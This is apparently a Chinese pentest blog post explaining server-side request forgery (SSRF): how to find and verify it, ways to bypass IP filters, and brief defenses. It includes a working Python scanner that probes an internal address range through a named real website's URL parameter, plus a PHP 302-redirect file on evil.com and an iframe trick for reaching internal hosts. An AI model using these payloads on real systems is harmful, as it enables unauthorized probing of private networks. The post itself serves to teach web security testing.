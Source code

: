 ```yaml
---
draft: false
date: 2016-06-30 15:30:54
title: SSRF
description: 
categories:
  - Pentest
tags:
  - ssrf
---
```


### 0x00 什么是SSRF
SSRF(Server-Side Request Forgery:服务请求伪造)是一种由攻击者构造，从而让服务端发起请求的一种安全漏洞，<font color="FF0000">它将一个可以发起网络请求的服务当作跳板来攻击其他服务</font>，SSRF的攻击目标一般是<font color="FF0000">内网</font>。  
当服务端提供了从其他服务器获取数据的功能(如:从指定URL地址获取网页文本内容、加载指定地址的图片、下载等)，但是没有对目标地址做过滤与限制时就会出现SSRF。

### 0x01 SSRF的危害
可以扫描内部网络  
可以构造数据攻击内部主机

### 0x02 漏洞挖掘
其实只要能对外发起网络请求就有可能存在SSRF漏洞。
```
1. 从WEB功能上寻找
    通过URL分享内容
    文件处理、编码处理、转码等服务
    在线翻译
    通过URL地址加载与下载图片
    图片、文章的收藏
    设置邮件接收服务器
2. 从URL关键字寻找
    share、wap、url、link、src、source、target、u、3g、
    display、sourceURl、imageURL、domain...
```

### 0x03 漏洞验证
```
http://www.aa.com/ss.php?image=http://www.baidu.com/img/bd_logo1.png
1. 右键在新窗口打开图片，图片地址为http://www.baidu.com/img/bd_logo1.png，
    说明不存在SSRF漏洞。  
2. firebug看网络连接信息，若没有http://www.baidu.com/img/bd_logo1.png
    这个图片请求，则证明图片是aa.com服务端发起的请求，则可能存在SSRF漏洞。
```

### 0x04 绕过过滤
有时漏洞利用时会遇到IP限制，可用如下方法绕过：
```
* 使用@：http://A.com@10.10.10.10 = 10.10.10.10
* IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
* 使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
* 端口绕过：ip后面加一个端口
* xip.io：10.0.0.1.xip.io = 10.0.0.1
        www.10.0.0.1.xip.io = 10.0.0.1
        mysite.10.0.0.1.xip.io = 10.0.0.1
        foo.bar.10.0.0.1.xip.io = 10.0.0.1
* 通过js跳转
```

### 0x05 通用的SSRF实例
* weblogin配置不当，天生ssrf漏洞
* discuz x2.5/x3.0/x3.1/x3.2 ssrf漏洞
* CVE-2016-1897/CVE-2016-1898 - FFMpeg
* CVE-2016-3718 - ImageMagick

### 0x06 附实例POC
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import re
import requests
from IPy import IP
import Queue
import threading


def get_url_queue():
    url = "http://www.sogou.com/reventondc/external?key=&objid=&type=2&charset=utf-8&url=http://"
    urllist = Queue.Queue()
    ip_list = IP('10.146.20.0/24')
    port_list = ['80','8000','8080']
    for ip_add in ip_list:
        ip_add = str(ip_add)
        for port in port_list:
            url_t = url + ip_add + ':' + port
            urllist.put(url_t)
    return urllist

def get_title(urllist):
    while not urllist.empty():
        url = urllist.get()
        html = requests.get(url).text
        patt = r'<title>(.*?)</title>'
        m = re.search(patt,html)
        if m:
            title = m.group(1)
            print "%s\t%s" % (url,title)


urllist = get_url_queue()
print "start get title..."
for x in xrange(1,30):
    t = threading.Thread(target=get_title,args=(urllist,))
    t.start()
```

### 0x07 防御
* 限制协议为http或https
* 禁止30x转跳
* 过滤参数(只要出现内网ip或域名就直接干掉)

<br>
#### ===== 20170609更新 =====
ssrf无回显用dnslog，有回显就加载第三方内容，宝哥说的姿势：

* 302跳转

```php
//在自己服务器上建立文件，利用302跳转到对方内网地址。
//http://target.com/httpProxyAccess.htm?go=http://evil.com/a.php?url=http://10.11.213.57
//a.php内容如下：
<?php
    $url = $_GET['url'];
    header("Location:".$url);
?>
```

* iframe

```php
//在自己服务器建立文件，利用iframe标签请求对方内网地址。
//参考http://www.secpulse.com/archives/50034.html
<iframe src="对方内网地址">
```
